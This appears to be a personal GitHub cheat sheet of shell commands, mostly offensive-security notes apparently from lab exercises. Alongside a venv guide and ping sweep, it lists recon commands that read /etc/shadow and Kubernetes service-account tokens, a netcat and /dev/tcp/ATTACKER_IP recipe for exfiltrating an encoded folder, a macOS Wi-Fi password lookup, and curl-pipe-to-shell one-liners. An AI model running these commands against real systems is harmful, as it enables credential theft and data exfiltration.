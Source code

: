 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 

    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts 💩
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/bashscript.sh | sh
